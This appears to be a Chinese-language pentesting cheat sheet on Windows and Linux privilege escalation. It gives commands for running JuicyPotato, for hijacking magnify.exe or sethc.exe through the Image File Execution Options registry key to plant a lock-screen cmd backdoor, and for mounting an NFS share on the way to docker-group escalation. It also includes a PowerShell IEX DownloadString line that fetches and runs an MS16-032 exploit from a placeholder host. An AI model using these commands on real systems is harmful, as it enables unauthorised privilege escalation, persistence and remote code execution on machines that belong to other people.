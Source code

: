 [CLSID](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

```shell
# win7
JuicyPotato.exe -t t -p c:\windows\system32\cmd.exe -l 1155 -c {8BC3F05E-D86B-11D0-A075-00C04FB68820}

```

## 镜像劫持 image hijack

https://zhuanlan.zhihu.com/p/616582468

```ps1
get-acl -path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options" | fl *

# 镜像劫持到放大镜
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /v Debugger /d "cmd.exe"
# 或者镜像劫持到shift后门 （锁定用户，按5次shift ）这里我们选择放大镜
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe"

# 锁定屏幕
rundll32.Exe user32.dll LockWorkStation
```

## wes.py

```shell
python wes.py -u # update
python wes.py systeminfo.txt --impact "Remote Code Execution" -e -o rce.csv
python wes.py systeminfo.txt -e --hide "Internet Explorer" Edge Flash -o vulns.csv
# 再用msf , 1. search CVE-xxx
msf > search
# 2. 访问链接里的漏洞, 下载执行如 https://www.exploit-db.com/exploits/39719
Powershell IEX (New-Object Net.WebClient).DownloadString('http://X.X.X.X:8000/ms16-032.ps1');Invoke-MS16-032
```

## nfs 文件共享 + ssh 免登录 + docker 组提权

nmap -sS -T4 -p - 192.168.1.205

```
2049/tcp open nfs
```

有 nfs 文件网络。挂载共享

showmount -e 192.168.1.205

> /home/peter \*

```sh
mkdir /mnt / peter
mount 192.168.1.205:/home/peter /mnt/peter
```
